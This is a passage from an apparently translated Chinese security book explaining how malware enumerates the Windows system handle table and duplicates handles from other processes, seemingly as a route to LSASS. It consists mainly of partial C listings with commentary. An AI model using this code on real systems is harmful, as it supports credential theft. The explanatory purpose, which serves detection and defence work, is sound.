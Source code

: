 ```
        free(pHandleInfo);
        pHandleInfo = (PSYSTEM_HANDLE_INFORMATION)malloc(ulSize);
        status = NtQuerySystemInformation(
            SystemHandleInformation, 1
          ❷ pHandleInfo,
            ulSize, &ulSize);
    } if (status != STATUS_SUCCESS)
    {
        return NULL;
    }
}
```

列表 4-10：检索句柄表

通过将 <samp class="SANS_TheSansMonoCd_W5Regular_11">SystemHandleInformation</samp> 信息类传递给该函数 ❶，用户可以检索一个包含系统上所有活动句柄的数组。该函数完成后，将把数组存储在 <samp class="SANS_TheSansMonoCd_W5Regular_11">SYSTEM_HANDLE_INFORMATION</samp> 结构的成员变量中 ❷。

接下来，恶意软件可以遍历句柄数组，如 列表 4-11 所示，并筛选出它无法使用的句柄。

```
for (DWORD i = 0; i < pHandleInfo->NumberOfHandles; i++)
{
    SYSTEM_HANDLE_TABLE_ENTRY_INFO handleInfo = pHandleInfo->Handles[i];

  ❶ if (handleInfo.UniqueProcessId != g_dwLsassPid && handleInfo.UniqueProcessId != 4)
  {
      HANDLE hTargetProcess = OpenProcess(
          PROCESS_DUP_HANDLE,
          FALSE,
          handleInfo.UniqueProcessId);

      if (hTargetProcess == NULL)
      {
          continue;
      }

      HANDLE hDuplicateHandle = NULL;
        if (!DuplicateHandle(
          hTargetProcess,
          (HANDLE)handleInfo.HandleValue,
          GetCurrentProcess(),
          &hDuplicateHandle,
          0, 0, DUPLICATE_SAME_ACCESS))
      {
          continue;
      }

      status = NtQueryObject(
          hDuplicateHandle,
          ObjectTypeInformation,
          NULL, 0, &ulReturnLength);
      if (status == STATUS_INFO_LENGTH_MISMATCH)
      {
          PPUBLIC_OBJECT_TYPE_INFORMATION pObjectTypeInfo =
              (PPUBLIC_OBJECT_TYPE_INFORMATION)malloc(ulReturnLength);
          if (!pObjectTypeInfo)
          {
              break;
          } status = NtQueryObject(
              hDuplicateHandle,
            ❷ ObjectTypeInformation,
              pObjectTypeInfo,
              ulReturnLength,
```